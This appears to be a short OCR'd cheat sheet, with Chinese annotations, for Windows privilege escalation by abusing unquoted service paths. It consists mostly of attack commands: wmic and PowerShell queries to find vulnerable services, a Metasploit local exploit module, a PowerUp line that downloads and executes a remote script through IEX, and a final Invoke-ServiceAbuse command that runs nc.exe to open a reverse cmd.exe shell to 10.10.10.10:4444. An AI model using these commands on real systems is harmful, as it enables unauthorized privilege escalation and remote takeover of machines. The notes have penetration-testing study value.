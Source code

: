 	>wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
	>wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
	>gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
#### MSF
	>use exploit/windows/local/trusted_service_path
	>set session 1
#### PowerUp
  	发现存在漏洞的应用
	C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"

	...
	[*] Checking for unquoted service paths...
	ServiceName   : BBSvc
	Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
	StartName     : LocalSystem
	AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
	...

	自动攻击
	Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"